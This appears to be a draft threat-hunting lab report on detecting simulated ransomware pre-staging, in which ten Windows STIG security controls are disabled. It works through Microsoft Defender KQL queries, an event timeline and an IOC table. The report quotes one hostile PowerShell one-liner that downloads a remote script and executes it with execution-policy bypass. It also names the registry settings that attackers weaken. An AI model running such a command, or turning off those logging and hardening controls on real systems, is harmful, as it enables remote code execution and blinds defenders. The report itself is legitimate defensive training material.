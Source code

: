![image](https://github.com/user-attachments/assets/aae438d1-b51f-4691-b49b-e45fa8b044ad)

# Threat Hunt Report: Crimson Mongoose Ransomware Pre-Staging (((DRAFT))) 
- [Scenario Creation](./threat-hunting-scenario-ransomware-pre-staging-activity-event-creation.md)

---

## Platforms and Languages Leveraged
- Windows 10 Virtual Machine (Microsoft Azure)
- EDR Platform: **Microsoft Defender for Endpoint** (Advanced Hunting)
- Kusto Query Language (KQL)
- PowerShell

---

## Scenario

**Alert source:** Regional CERT flash warning of a new ransomware crew, *Crimson Mongoose*.

**Key intel:** In every confirmed intrusion the actors quickly flip **exactly ten Windows 10 STIG controls** that kill logging (PowerShell, audit), weaken UAC, and enable insecure remote protocols (SMB signing, WinRM HTTP, disable FIPS).  
They then lurk ≤ 24 h before detonating an encryptor.

**Goal:** Detect all ten STIG flips on the single lab VM and escalate **before** the 24-hour fuse expires.

### High-Level IOC Discovery Plan

| Table | IOC Focus |
|-------|-----------|
| `DeviceRegistryEvents` | Any of the ten registry paths/values set to non-compliant data. |
| `DeviceProcessEvents` | `reg.exe`, `Set-ItemProperty`, or `auditpol.exe` commands that performed the flips. |
| `DeviceNetworkEvents` | Unsigned SMB or WinRM HTTP (port 5985) traffic that follows the mis-configs. |

---

## Steps Taken

### 1. Checked `DeviceRegistryEvents` for STIG value changes

Simple sweep for any key containing the PowerShell, WinRM, SMB, FIPS, or UAC paths with bad values (`0` or `1` depending on control).  
**Query used:**

```kql
DeviceRegistryEvents
| where Timestamp > ago(24h)
| where ActionType == "RegistryValueSet"  
| where RegistryKey has_any (
    @"SOFTWARE\Policies\Microsoft\Windows\PowerShell\Transcription",
    @"SOFTWARE\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging",
    @"SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System",
    @"SYSTEM\CurrentControlSet\Services\Lanmanworkstation\Parameters",
    @"SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters",
    @"SOFTWARE\Policies\Microsoft\Windows\WinRM\Client",
    @"SOFTWARE\Policies\Microsoft\Windows\WinRM\Service",
    @"SYSTEM\CurrentControlSet\Control\Lsa\FipsAlgorithmPolicy"
)
| project Timestamp, DeviceName, RegistryKey, RegistryValueName, 
         RegistryValueData, InitiatingProcessAccountName,  
         InitiatingProcessFileName
| order by Timestamp desc
```
Findings: All ten non-compliant values appeared between 2025-06-17 18:03–18:05 UTC.

##

### 2. Checked `DeviceProcessEvents` for who made the changes
Focused on commands containing reg add, Set-ItemProperty, or auditpol.
Query:

```kql
DeviceProcessEvents
| where Timestamp between (datetime(2025-06-17T18:00Z) .. datetime(2025-06-17T18:10Z))
| where ProcessCommandLine has_any ("reg add","Set-ItemProperty","auditpol")
| project Timestamp, FileName, ProcessCommandLine, InitiatingProcessAccountUpn
| order by Timestamp desc
```

Findings:
Process owner corp\backupsvc executed one-liner PowerShell:
```
powershell.exe -ep Bypass -NoProfile -c "iwr https://raw.githubusercontent.../stig-pre-staging-iocs.ps1 | iex"
```

This matches attacker TTP: pull-and-run script from GitHub, window hidden.

##

### 3. Searched `DeviceNetworkEvents` for supporting traffic
Hunted for unsigned SMB and WinRM HTTP (5985):

```kql
DeviceNetworkEvents
| where Timestamp > datetime(2025-06-17T18:05Z)
| where (RemotePort == 5985 and Protocol == "Tcp")  
   or (LocalPort == 445 and Protocol == "Tcp")
| project Timestamp, RemoteIP, RemotePort, InitiatingProcessFileName
| order by Timestamp desc
```

### 4. Validation - Confirmed All 10 STIG Controls Modified
Validated that all 10 controls were modified by same account:
```kql
DeviceRegistryEvents
| where Timestamp between (datetime(2025-06-17T18:00Z) .. datetime(2025-06-17T18:10Z))
| where ActionType == "RegistryValueSet"
| where RegistryKey has_any ([list of 10 specific paths])
| summarize 
    ModifiedControls = dcount(RegistryKey),
    ControlsList = make_set(RegistryKey),
    UniqueAccounts = dcount(InitiatingProcessAccountName)
  by DeviceName
| where ModifiedControls == 10
```
Findings: Confirmed all 10 STIG controls were modified by single account (corp\backupsvc) within 2-minute window.

---

### Chronological Event Timeline

| Time (UTC) | Event |
|-------|-----------|
|18:03:12|powershell.exe (hidden) downloaded and executed stig-pre-staging-iocs.ps1.|
|18:03:14–18:05:09|All ten registry values flipped to non-compliant (DeviceRegistryEvents).|
|18:05:22|First WinRM HTTP connection to 10.0.0.15:5985 by powershell.exe.|

| IOC (Type) | Value | Confidence | MITRE ATT&CK
|-------|-----------|-------|-----------|
| Compromised Account | corp\backupsvc | High | T1078
| Malicious Process | powershell.exe -ep Bypass -NoProfile | High | T1059.001
| C2 Server | 10.0.0.15:5985 (WinRM) | Medium | T1021.006
| Malicious Script | stig-pre-staging-iocs.ps1 | High | T1203
| Registry Modifications | 10 STIG controls disabled | High | T1112

---

## Summary
The VM showed the full Crimson Mongoose STIG footprint: ten critical controls disabled by account corp\backupsvc via a single remote-downloaded PowerShell command, followed by WinRM traffic.
This matches pre-staging behavior; ransomware detonation would likely follow within the next 24 hours.

---

### Response Taken
Immediate Actions:

- Isolated device via MDE
- Disabled corp\backupsvc account
- Initiated enterprise-wide hunt for similar activity

---

